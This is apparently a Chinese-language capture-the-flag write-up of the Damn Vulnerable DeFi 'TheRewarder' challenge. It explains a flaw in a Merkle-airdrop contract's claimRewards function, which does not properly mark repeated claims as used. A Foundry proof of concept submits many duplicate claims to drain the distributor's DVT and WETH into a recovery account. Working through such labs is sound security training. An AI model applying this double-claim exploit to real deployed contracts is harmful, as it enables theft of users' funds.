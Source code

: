 # TheRewarder (24/09/04)

## 题目介绍

> **奖励者**
>
> **一份合同正在分配该死的宝贵代币和WETH的奖励。**
>
> **要申请奖励，用户必须证明他们包含在选定的受益人组中。不过不要担心汽油。合同已经过优化，允许在同一笔交易中申请多个代币。**
>
> **爱丽丝已经领取了她的奖励。你也可以认领你的！但你已经意识到合同中存在一个严重的漏洞。**
>
> **从分销商那里尽可能多地节省资金。将所有收回的资产转移到指定的收回账户。**

## 合约分析

根据题目指示这一道默克尔树分发代币领取代币奖励的合约，我们先看一下合同。发现只有一个合约，然后有两个地址列表一个weth一个dvt token的列表这是符合空投奖励领取的用户。我们发现爱丽丝在领取空投的时候调用了         `distributor.claimRewards(**{**inputClaims**:** claims, inputTokens**:** tokensToClaim**}**);`这个函数。这个函数参数有Claim的结构体参数构成，有批次，爱丽丝的数量和爱丽丝token的索引序号对应的莫克尔树证明。

核心函数是claimRewards也是漏洞所在的函数，我们可以看见在整个循环过程中只在i=数组长度的时候才进行设置已领取，我们可以完全可以发起多笔相同的交易多次重复领取奖励。

``` solidity
  // Let's claim rewards for Alice.

        // Set DVT and WETH as tokens to claim
        IERC20[] memory tokensToClaim = new IERC20[](2);
        tokensToClaim[0] = IERC20(address(dvt));
        tokensToClaim[1] = IERC20(address(weth));

        // Create Alice's claims
        Claim[] memory claims = new Claim[](2);

        // First, the DVT claim
        claims[0] = Claim({
            batchNumber: 0, // claim corresponds to first DVT batch
            amount: ALICE_DVT_CLAIM_AMOUNT,
            tokenIndex: 0, // claim corresponds to first token in `tokensToClaim` array
            proof: merkle.getProof(dvtLeaves, 2) // Alice's address is at index 2
        });

        // And then, the WETH claim
        claims[1] = Claim({
            batchNumber: 0, // claim corresponds to first WETH batch
            amount: ALICE_WETH_CLAIM_AMOUNT,
            tokenIndex: 1, // claim corresponds to second token in `tokensToClaim` array
            proof: merkle.getProof(wethLeaves, 2) // Alice's address is at index 2
        });
        
      =======主要核心函数 》〉》〉》〉》
      
      
      
          // Allow claiming rewards of multiple tokens in a single transaction
    function claimRewards(Claim[] memory inputClaims, IERC20[] memory inputTokens) external {
        Claim memory inputClaim;
        IERC20 token;
        uint256 bitsSet; // accumulator
        uint256 amount;

        for (uint256 i = 0; i < inputClaims.length; i++) {
            inputClaim = inputClaims[i];

            uint256 wordPosition = inputClaim.batchNumber / 256;
            uint256 bitPosition = inputClaim.batchNumber % 256;

            if (token != inputTokens[inputClaim.tokenIndex]) {
                if (address(token) != address(0)) {
                    if (!_setClaimed(token, amount, wordPosition, bitsSet)) revert AlreadyClaimed();
                }

                token = inputTokens[inputClaim.tokenIndex];
                bitsSet = 1 << bitPosition; // set bit at given position
                amount = inputClaim.amount;
            } else {
                bitsSet = bitsSet | 1 << bitPosition;
                amount += inputClaim.amount;
            }
            // for the last claim
            //0 == 3
            //1 == 3
            //2 == 3
            //3 == 3
            
            if (i == inputClaims.length - 1) {
                if (!_setClaimed(token, amount, wordPosition, bitsSet)) revert AlreadyClaimed();
            }

            bytes32 leaf = keccak256(abi.encodePacked(msg.sender, inputClaim.amount));
            bytes32 root = distributions[token].roots[inputClaim.batchNumber];

            if (!MerkleProof.verify(inputClaim.proof, root, leaf)) revert InvalidProof();

            inputTokens[inputClaim.tokenIndex].transfer(msg.sender, inputClaim.amount);
        }
    }

   
```



## 解题过程

我们知道爱丽丝在我们的列表中有地址那么同样的如果我们想要领取空投奖励，那么我们的地址也应该才这个列表里面。运行测试找出我们的地址，然后在去列表里面去找对应我们的数量。我们查看总共的所有代币数量，然后除我们的dvt和weth的数量。算出来总共需要多少次交易才可以把代币排空。最后构造交易把钱转到恢复账户。

**poc**

``````solidity
    function test_theRewarder() public checkSolvedByPlayer {
        console.log("playaddr: ", player);
        uint PLAYER_DVT_CLAIM_AMOUNT = 11524763827831882;
        uint PLAYER_WETH_CLAIM_AMOUNT = 1171088749244340;

        bytes32[] memory dvtLeaves = _loadRewards(
            "/test/the-rewarder/dvt-distribution.json"
        );
        bytes32[] memory wethLeaves = _loadRewards(
            "/test/the-rewarder/weth-distribution.json"
        );

        // 计算交易，总共的数量除我们领取的数量
        uint dvtTxCount = TOTAL_DVT_DISTRIBUTION_AMOUNT / PLAYER_DVT_CLAIM_AMOUNT;
        uint wethTxCount = TOTAL_WETH_DISTRIBUTION_AMOUNT / PLAYER_WETH_CLAIM_AMOUNT;
        uint totalTxCount = dvtTxCount + wethTxCount;

        IERC20[] memory tokensToClaim = new IERC20[](2);
        tokensToClaim[0] = IERC20(address(dvt));
        tokensToClaim[1] = IERC20(address(weth));

    
        Claim[] memory claims = new Claim[](totalTxCount);

        for (uint i = 0; i < totalTxCount; i++) {
            if (i < dvtTxCount) {
                claims[i] = Claim({
                    batchNumber: 0, 
                    amount: PLAYER_DVT_CLAIM_AMOUNT,
                    tokenIndex: 0, 
                    proof: merkle.getProof(dvtLeaves, 188) 
                });
            } else {
                claims[i] = Claim({
                    batchNumber: 0, 
                    amount: PLAYER_WETH_CLAIM_AMOUNT,
                    tokenIndex: 1, 
                    proof: merkle.getProof(wethLeaves, 188) 
                });
            }
        }

        // 开始领取
        distributor.claimRewards({
            inputClaims: claims,
            inputTokens: tokensToClaim
        });

        // 转移到恢复账户
        dvt.transfer(recovery, dvt.balanceOf(player));
        weth.transfer(recovery, weth.balanceOf(player));

    }

``````